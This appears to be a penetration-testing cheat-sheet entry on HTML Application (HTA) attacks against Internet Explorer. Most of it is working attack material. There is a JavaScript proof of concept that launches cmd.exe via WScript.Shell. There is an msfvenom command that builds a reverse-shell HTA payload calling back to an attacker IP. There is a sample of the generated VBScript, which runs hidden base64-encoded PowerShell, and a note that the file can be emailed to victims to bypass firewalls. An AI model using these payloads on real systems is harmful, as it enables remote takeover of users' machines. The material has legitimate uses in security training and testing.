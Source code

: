 ## HTML Application (HTA) Attacks

### Internet Explorer/Edge

Simple PoC code to launch a command using a Windows Script Host Shell object.

```html
<html>
<body>
<script>
    // Run cmd.exe
	var c= 'cmd.exe'
	new ActiveXObject('WScript.Shell').Run(c);    
</script>
</body>
<body>
<script>self.close();</script>
</body>    
</html>
```

Use Powershell to perform more sophisticated attacks:

```bash
sudo msfvenom -p windows/shell_reverse_tcp LHOST=192.168.119.216 LPORT=80 -f hta-psh -o /var/www/html/evil.hta

# Options
-f hta-psh 	# Format for HTA files
```

This will generate a payload similiar to this one:

```html
<script language="VBScript">
    window.moveTo -4000,-4000
    Set yiH = CreateObject("Wscript.Shell")
    Set fx9uBRqUjGQ5 = CreateObject("Scripting.FileSystemObject")
    For each path in Split(yiH.ExpandEnvironmentStrings("%PSModulePath%"),";")
	    If fx9uBRqUjGQ5.FileExists(path + "\..\powershell.exe") Then
    		yiH.Run "powershell.exe -nop -w hidden -e 
-----SNIPPED-------
	    	//-nop = no profile, does not load user profile
    		//-w hidden	= Window style: hidden to avoid creating window on desktop
    		//-e <base64> = Supplies Powershell command as Base64 encoded argument
```

Once a user executes this in Internet Explorer, a reverse shell will be established with the attacker machine.  This can be exploited without utilizing a vulnerability.  Users can browse to the page or the file can be sent through email as well to bypass Firewalls.

